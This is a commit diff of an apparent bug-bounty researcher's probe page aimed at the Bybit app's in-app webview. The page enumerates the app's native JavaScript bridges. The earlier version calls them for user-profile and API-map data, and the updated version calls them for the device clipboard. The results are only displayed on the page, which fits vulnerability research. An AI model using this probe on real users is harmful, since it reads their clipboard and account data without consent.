

Before and after one commit to researcher-intigriti-bbtmp3-20260827/researcher-intigriti-bbtmp3-20260827.github.io, a plain HTML site: page bybit-webview-probe.html in a window 1280 px wide. Shown: the part 66-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update bybit-webview-probe.html

```diff
--- a/bybit-webview-probe.html
+++ b/bybit-webview-probe.html
@@ -1,15 +1,15 @@
 <!doctype html>
 <meta name="viewport" content="width=device-width,initial-scale=1">
-<title>Controlled Bybit Bridge Probe</title>
+<title>Controlled Bybit Clipboard Bridge Probe</title>
 <style>body{font:14px monospace;background:#111;color:#eee;padding:12px;word-break:break-word}h1{font:18px sans-serif;color:#f7a600}pre{white-space:pre-wrap;border:1px solid #555;padding:10px}</style>
-<h1>Controlled Bybit Bridge Probe</h1><pre id="out">starting</pre>
+<h1>Controlled Bybit Clipboard Bridge Probe</h1><pre id="out">starting</pre>
 <script>
 const log=[];const out=document.getElementById('out');
 function add(k,v){let s;try{s=typeof v==='string'?v:JSON.stringify(v)}catch(e){s=String(v)}log.push(k+': '+s);out.textContent=log.join(String.fromCharCode(10))}
 window.onerror=(m,s,l,c,e)=>add('windowError',{message:m,line:l,column:c,error:String(e)});
 window._b_bridge_callback_=function(){add('callback',Array.from(arguments))};
-function send(moduleName,methodName){const b=window['_b_bridge_'+moduleName+'_'];const msg={moduleName,methodName,uniqueId:'probe-'+moduleName+'-'+methodName+'-'+Date.now(),params:{}};try{if(!b||typeof b.postMessage!=='function')return add('noBridge',moduleName);b.postMessage(JSON.stringify(msg));add('sent',msg)}catch(e){add('sendError '+moduleName+'.'+methodName,String(e))}}
-function run(){try{add('href',location.href);const names=Object.getOwnPropertyNames(window).filter(x=>x.startsWith('_b_bridge_')).sort();add('bridges',names);for(const n of names){try{const v=window[n];add('obj '+n,{type:typeof v,keys:Object.keys(v||{}),postMessage:typeof(v&&v.postMessage)})}catch(e){add('objError '+n,String(e))}}send('SystemInfo','getAppConfig');send('SystemInfo','getApiMap');send('UserProfile','getUserProfile');send('UserProfile','cachedUserProfile')}catch(e){add('runError',String(e))}}
+function send(moduleName,methodName){const b=window['_b_bridge_'+moduleName+'_'];const msg={moduleName,methodName,uniqueId:'clip-'+Date.now(),params:{}};try{if(!b||typeof b.postMessage!=='function')return add('noBridge',moduleName);b.postMessage(JSON.stringify(msg));add('sent',msg)}catch(e){add('sendError '+moduleName+'.'+methodName,String(e))}}
+function run(){add('href',location.href);add('bridges',Object.getOwnPropertyNames(window).filter(x=>x.startsWith('_b_bridge_')).sort());send('SystemInfo','getTextFromClipboard')}
 addEventListener('flutterInAppWebViewPlatformReady',()=>{add('event','ready');setTimeout(run,250)});
-setTimeout(run,1500);setTimeout(()=>send('Navigator','closePage'),5000);
+setTimeout(run,1500);
 </script>
```
